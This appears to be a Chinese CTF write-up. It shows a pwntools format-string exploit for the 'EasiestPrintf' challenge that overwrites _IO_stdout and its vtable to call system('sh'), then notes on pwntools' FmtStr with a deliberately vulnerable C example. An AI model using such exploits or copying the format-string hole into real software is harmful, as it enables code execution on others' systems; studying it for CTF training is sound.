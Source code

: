 ```
#    gdb.attach(p, open('debug'))
    
    def exe_fmt(payload):
        p = process('./EasiestPrintf')
        p.recvuntil('read:\n')
        p.sendline(str(_IO_stdout_got))
        p.recvuntil('Good Bye\n')
        p.sendline(payload)
        return p.recvall()
    fmt = FmtStr(exe_fmt)  # init
    # _IO_stdout_addr = 'sh\x00\x00'
    # _IO_stdout_addr - 4 = &system
    # _IO_stdout_vtable+0x1c = &(libc_stdout-4)       _IO_file_xsputn
    writes = {_IO_stdout_addr:26739-16, # 'sh\x00\x00'
            _IO_stdout_addr-4:system_addr,
            _IO_file_jumps_addr+0x1c:_IO_stdout_addr-4}
    payload = fmtstr_payload(fmt.offset, writes, 0, 'byte')
    p.sendline(payload)
    
if __name__ == '__main__':
    pwn()
    p.interactive()
```
最后的payload使180长度，但是最大长度是158- -。。

## 关于FmtStr

pwntools中的fmtstr还是很有趣的，唯一的不足就是生成的payload太长了- -因为据观察完全是用`hhn`来修改的（因为只能指定一个只能为`hhn`or`hn`or`n`中的一种来生成payload），大概是作者懒了没想设计别的算法把- -

先看下给出的example
```
>>> program = tempfile.mktemp()
>>> source  = program + ".c"
>>> write(source, '''
... #include <stdio.h>
... #include <stdlib.h>
... #include <unistd.h>
... #include <sys/mman.h>
... #define MEMORY_ADDRESS ((void*)0x11111000)
... #define MEMORY_SIZE 1024
... #define TARGET ((int *) 0x11111110)
... int main(int argc, char const *argv[])
... {
...        char buff[1024];
...        void *ptr = NULL;
...        int *my_var = TARGET;
...        ptr = mmap(MEMORY_ADDRESS, MEMORY_SIZE, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE, 0, 0);
...        if(ptr != MEMORY_ADDRESS)
...        {
...                perror("mmap");
...                return EXIT_FAILURE;
...        }
...        *my_var = 0x41414141;
...        write(1, &my_var, sizeof(int *));
...        scanf("%s", buff);
...        dprintf(2, buff);
...        write(1, my_var, sizeof(int));
...        return 0;
... }''')
>>> cmdline = ["gcc", source, "-Wno-format-security", "-m32", "-o", program]
>>> process(cmdline).wait_for_close()
```